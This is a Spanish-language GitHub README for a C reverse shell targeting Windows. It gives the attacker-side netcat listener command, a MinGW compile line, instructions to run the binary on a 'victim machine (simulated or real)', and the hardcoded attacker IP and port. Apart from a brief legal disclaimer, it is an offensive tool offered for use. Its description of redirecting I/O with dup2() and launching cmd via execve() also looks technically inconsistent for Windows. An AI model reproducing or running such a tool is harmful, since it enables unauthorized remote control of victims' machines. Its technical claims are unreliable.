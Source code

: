 # 🐚 Windows Reverse Shell en C

Este programa en C implementa una **reverse shell** que se conecta a un servidor atacante (listener) a través de TCP y redirige la entrada/salida del sistema a dicho servidor. Está diseñado específicamente para sistemas **Windows**, usando `cmd` como intérprete.

## ⚠️ **Advertencia**

> Esta herramienta debe ser utilizada **exclusivamente en entornos controlados y con autorización explícita**. El uso no autorizado de este tipo de código puede ser **ilegal y punible por ley**.

## 🧠 ¿Qué hace este código?

1. Crea un socket TCP con `socket()`
2. Se conecta a una IP y puerto definidos (`10.10.14.17:9001`)
3. Redirige `stdin`, `stdout` y `stderr` al socket con `dup2()`
4. Ejecuta `cmd` usando `execve()`


## 🧪 Requisitos

- Sistema operativo: Windows
- Compilador compatible (MinGW, x86_64-w64-mingw32-gcc, etc.)
- Listener del lado atacante (por ejemplo: `nc -lvnp 9001`)


## 🔧 Compilación

Usa MinGW para compilarlo en Windows o desde Linux para target Windows:

```bash
x86_64-w64-mingw32-gcc reverse_shell.c -o shell.exe
````

## 🚀 Uso

1. En tu máquina atacante (Kali, Parrot, etc.):

```bash
nc -lvnp 9001
```

2. Ejecuta el binario `shell.exe` en la máquina víctima (simulada o real).

3. Obtendrás una shell inversa con privilegios del proceso.

## ⚙️ Parámetros de conexión

```c
int port = 9001;
revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.17");
```

Cambia estos valores según tu IP y puerto antes de compilar si deseas adaptar la conexión.

## 📦 Archivos

* `reverse_shell.c` – Código fuente principal
* `README.md` – Documentación

## 👨‍💻 Autor

ErickO
🔗 GitHub: [@NoTrustedx](https://github.com/NoTrustedx)

## 📄 Licencia

MIT License – para uso educativo, investigativo y controlado. **No se permite el uso malicioso.**
